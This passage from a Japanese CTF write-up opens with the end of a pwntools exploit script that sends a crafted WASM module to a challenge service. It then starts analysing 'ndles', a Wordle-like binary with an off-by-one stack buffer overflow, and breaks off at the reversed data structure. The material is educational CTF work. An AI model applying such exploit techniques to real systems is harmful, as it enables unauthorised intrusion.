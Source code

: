 ```python

                (export "_start" (func $_start))
            )
        """
    )

    log.info(f"wasm: {wasm}")
    log.info(f"len(wasm): {len(wasm)}")

    length = p16(len(wasm) + 2, endian='big')
    io.sendafter(b"Give wasm plz:\n", length)

    io.sendlineafter(b"plz:\n", wasm)

    io.interactive()

script = """
    b check_variable
"""

if __name__ == '__main__':
    exploit()

```

これ僕が解いたわけじゃないのですが、書き込み可能な領域にどんなデータがあるのかしっかり観察する能力が要求されてるな〜みたいに思いました。これがなかったら、バイナリに置いてあるスタックのアドレスから頑張って ROP とかを書き込むことになるのだろうか....

## ndles

LIVE CTF で出された問題です。チームメイトが 40 分で解いていて、マジで意味がわからなかった。

バイナリと動かすための Dockerfile が渡されます。

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

バイナリは、いつかに流行っていた WORDLE みたいな感じのゲームです。

このゲームですが、一番最初に自分の回答の長さを入力することができます。11 以上で弾かれてしまうのですが、入力用のバッファは 9 しか用意されていないので、10 の場合に BoF が発生します。
また、チャンレンジ自体は 8 回まで行うことができます。

ある程度真面目のデータ構造を rev すると、

```c
typedef {
    unsigned char len;
    char buf[9];
} buf[8];
```
